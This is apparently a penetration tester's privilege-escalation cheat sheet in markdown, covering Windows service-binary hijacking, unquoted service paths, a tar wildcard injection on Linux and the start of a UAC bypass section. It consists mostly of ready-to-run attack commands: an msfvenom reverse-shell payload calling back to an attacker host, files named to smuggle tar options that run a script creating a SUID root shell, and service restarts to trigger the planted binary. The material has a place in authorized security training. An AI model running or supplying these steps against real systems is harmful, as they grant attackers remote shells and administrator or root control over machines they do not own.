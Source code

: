 ### Modifiable service binary & Unquoted Path service
```bash
# Run SharpUp.exe to find if any service binary is writable or any unquoted path service
# If found anything, run msfvenom to create a service binary
msfvenom -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=KALI_PORT EXIT_FUNC=thread -f exe-service -o SERVICE_NAME.exe
```
Transfer the exploit binary to the windows target
```powershell
# For writable binary service
copy SERVICE_NAME.exe C:\PATH\TO\ORIGINAL\SERVICE\BINARY.exe
# For unquoted path, let say the service binary is in 
# C:\Program Files\A Subfolder\B Subfolder\C Subfolder
# while we can write to "A subfolder" directory
copy SERVICE_NAME.exe "C:\Program Files\A Subfolder\B.exe"
# Restart service
sc.exe stop SERVICE_NAME
sc.exe start SERVICE_NAME
```

### tar wildcard exploit
If the cron script or the sudo rule allowed something be like
```
tar cf FIXED_TAR_NAME *
```
Create a script with following content
```
#!/bin/bash
cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash
```
Then create some more files in the script's directory
```
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Then when running the script, it will be interpreted as
```
tar cf FIXED_TAR_NAME --checkpoint=1 --checkpoint=action=exec=sh shell.sh
```
Go to /tmp will find a suid set bash

### UACBypass
If you already in a user profile which is a admin group user,
but you are not having a high mandatory level shell.
You need UACBypass exploit to get admin shell.

#### CLI version
It is more complicated with CLI UACBypass. First will need to check if the UAC is really bypassable
```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System 
```
If the return `ConsentPromptBehaviorAdmin` value is 5, it means it is using the default setting for UAC. 
